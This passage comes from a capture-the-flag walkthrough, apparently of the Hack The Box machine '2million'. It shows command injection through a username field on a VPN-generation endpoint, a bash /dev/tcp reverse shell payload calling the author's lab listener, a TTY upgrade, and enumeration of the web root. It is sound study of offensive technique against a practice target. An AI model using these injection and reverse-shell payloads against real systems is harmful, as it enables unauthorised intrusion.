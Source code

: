 ### Command Injection via POST
So in my fury of testing before I looked up 0xdf, I had previously tried sending requests to the `/admin/vpn/generate` endpoint, created some vpn keys and tried to connect using them, but it was no luck. I thought the endpoint was just a bust, but what 0xdf helped me realize in his post was that we needed to consider how the POST request was working. If the server is calling a script and just dropping our input on the command line as a variable (with something like `openvpn_generate.sh $username`) then we could attempt a command injection on that.

So let's try that by doing a test username of: `; id;`
The first semicolon will end the current command and start a new one, then we put id as a simple command to output information and a second semicolon to end again.
![api_v1_admin_vpn_generate_commandinject](Images/api_v1_admin_vpn_generate_commandinject.png)<br><br>

### Reverse Shell and Full TTY
Let's start nc on our host and then drop a reverse shell through command injection. [HackTricks](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/linux) is a good resource for this:<br>

```{"username":"; bash -c 'bash -i >& /dev/tcp/10.10.14.179/2550 0>&1' ;"}```<br>

After sending the above command we do get a connection back to our host.
```console
toastydz@parrot$ nc -lvnp 2550
listening on [any]2550 ...
connect to [10.10.14.179] from (UNKOWN) [10.10.11.221] 58774
bash: cannot set terminal process group (1159): Inappropriate ioctl for device
bash: no job control in this shell
www-data@2million:~/html$
```

We then upgrade our shell to fully interactive TTY using one of the methods over at [HackTricks](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys)

I used the Python method:
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'

(inside the nc session) CTRL+Z;stty raw -echo; fg; ls; export SHELL=/bin/bash; export TERM=screen; stty rows 38 columns 116; reset;
```

## Enumerating Server
Let's take a look around from here. We can see that we appear to be in /var/www/html and we can view the files in this directory:
```console
www-data@2million:~/html$ pwd
/var/ww/html
www-data@2million:~/html$ ls -al
total 56
drwxr-xr-x 10 root root 4096 Jul 27 14:00 .
drwxr-xr-x  3 root root 4096 Jun  6 10:22 ..
-rw-r--r--  1 root root   87 Jun  2 18:56 .env
-rw-r--r--  1 root root 1237 Jun  2 16:15 Database.php
-rw-r--r--  1 root root 2787 Jun  2 16:15 Router.php
drwxr-xr-x  5 root root 4096 Jul 27 14:00 VPN
drwxr-xr-x  2 root root 4096 Jun  6 10:22 assets
drwxr-xr-x  2 root root 4096 Jun  6 10:22 controllers
drwxr-xr-x  5 root root 4096 Jun  6 10:22 css
drwxr-xr-x  2 root root 4096 Jun  6 10:22 fonts
drwxr-xr-x  2 root root 4096 Jun  6 10:22 images
-rw-r--r--  1 root root 2692 Jun  2 18:57 index.php
drwxr-xr-x  3 root root 4096 Jun  6 10:22 js
drwxr-xr-x  2 root root 4096 Jun  6 10:22 views
```